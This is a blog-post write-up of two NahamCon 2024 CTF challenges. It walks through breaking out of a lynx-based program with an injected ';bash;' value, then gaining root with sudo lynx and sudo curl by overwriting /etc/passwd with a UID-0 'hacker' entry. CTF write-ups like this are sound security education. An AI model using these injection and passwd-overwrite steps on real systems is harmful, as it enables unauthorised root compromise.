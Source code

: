 +++
title = "NahamCon CTF 2024 WriteUp - Miscellaneous"
date = "2024-05-25T21:17:45+03:00"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["CTF", "Lynx", "Curl", "Passwd"]
keywords = ["", ""]
description = ""
showFullContent = false
readingTime = false
hideComments = false
color = "" #color from the theme settings
toc = true
images = ["/img/htb_business_ctf_2024/ctf_logo.jpg"]
+++

<!--more-->
{{< image src="/img/nahamcon_ctf_2024/logo.jpeg" alt="" position="center" style="border-radius: 8px;" >}}

## Introduction
NahamCon 2024 is taking place this weekend and they had a CTF as part of the online conference. I participated with team [fr334aks](https://twitter.com/fr334aks). 

We managed position 197. We did good on Web, Mobile and WarmUps but not well on other categories like Binary Exploitation and Crypto. 

{{< image src="/img/nahamcon_ctf_2024/cert.png" alt="" position="center" style="border-radius: 8px;" >}}

It was our first CTF of the year together, so it's not a bad start from a long break. Hopefully we get back to our winning ways :).

I only solved 2 Miscellaneous challenges that I am writing about in this post.


## 1. SecureSurfer

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_1.png" alt="" position="center" style="border-radius: 8px;" >}}

We begin with ssh access to the challenge environment, we are also provided with [securesurfer.c](/files/nahamcon_ctf_2024/securesurfer.c) file. Our objective is to gain root access to get the flag.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we ssh, it seems the securesurfer program is executed and we are provided with a few options. 

If we look at the code provided, the only option that takes user input is option 6 which is a url that will be loaded using lynx browser on the terminal. 

We can see that the user input is not sanitized/validated, the only check done is that the url has to begin with `https://`.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_4.png" alt="" position="center" style="border-radius: 8px;" >}}

We can therefore inject our own commands to break out of the program and into a shell. After the url we can inject the below payload.

```sh
';bash;'
```
Once lynx program is done loading the url, we get a bash shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_3.png" alt="" position="center" style="border-radius: 8px;" >}}

To escalate our privileges, we find that the securesurfer user can run lynx as root.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_5.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then try accessing the root folder using the below command.

```sh
sudo /usr/local/bin/lynx file:///root
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_6.png" alt="" position="center" style="border-radius: 8px;" >}}

Here we see the get flag binary, we can then download it to our local directory and execute it to get the flag.

```sh
sudo /usr/local/bin/lynx -source file:///root/get_flag_random_suffix_21505252448959 > get_flag
```
{{< image src="/img/nahamcon_ctf_2024/secure_surfer_7.png" alt="" position="center" style="border-radius: 8px;" >}}

If we wanted to get a root shell, one way is to overwrite the passwd file to add a user with root privileges.

We'll begin by creating a password hash for the user we want to add to the passwd file, the password here is **hacker**.

```sh
openssl passwd -1 -salt hacker hacker
```
Then we'll copy the current passwd file to our directory and add our new user to the file, using the below format where we specify the user with id 0 to give root privileges. The username is **hacker**.

```sh
echo 'hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash' >> passwd
```

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_8.png" alt="" position="center" style="border-radius: 8px;" >}}

Then we'll launch lynx and overwrite the /etc/passwd with our modified passwd file.

```sh
sudo /usr/local/bin/lynx file:///home/securesurfer/passwd
```
Once we are in lynx, we will press **P** which is the print option, and we select **Save to a local file** and press enter.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_9.png" alt="" position="center" style="border-radius: 8px;" >}}

We can then update the filename to /etc/passwd.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_10.png" alt="" position="center" style="border-radius: 8px;" >}}

Once we say yes to Overwrite the file, we can quit lynx and switch to the `hacker` user, using the password `hacker` to get a root shell.

{{< image src="/img/nahamcon_ctf_2024/secure_surfer_11.png" alt="" position="center" style="border-radius: 8px;" >}}


## 2. Curly Fries

{{< image src="/img/nahamcon_ctf_2024/curly_fries_1.png" alt="" position="center" style="border-radius: 8px;" >}}

For this challenge, we begin by ssh into the challenge environment. Our objective is to escalate to root and get the flag.

Our user has sudo privileges to run curl impersonating the user fry, however this configuration is not vulnerable to abuse.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_2.png" alt="" position="center" style="border-radius: 8px;" >}}

Looking around, we find that in fry's home folder we can read the bash_history file. This gives us their password.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_3.png" alt="" position="center" style="border-radius: 8px;" >}}

Switching to the user fry, we see they can run curl as root but the configuration includes a wildcard. This is different from the previous configuration and we can abuse it.

{{< image src="/img/nahamcon_ctf_2024/curly_fries_4.png" alt="" position="center" style="border-radius: 8px;" >}}

Similar to the previous challenge, we'll use curl to overwrite the passwd file with a modified version that has the hacker user with root privileges.

I set up a python web server to serve the modified passwd file and then downloaded it and perform the overwrite.

```sh
sudo /usr/bin/curl 127.0.0.1:8000/health-check -o /etc/passwd
```

{{< image src="/img/nahamcon_ctf_2024/curly_fries_5.png" alt="" position="center" style="border-radius: 8px;" >}}

## Conclusion
Thanks to John Hammond, NahamSec and the rest of challenge creators for putting together yet another great CTF this year. I didn't put in a lot of time to solve more challenges but I still had a good time.

You can catch the conference live here: [NahamCon CTF 2024 Live Stream](https://www.youtube.com/live/76mNNVVBht0?si=E2TKu8fJD6SNXFCR)

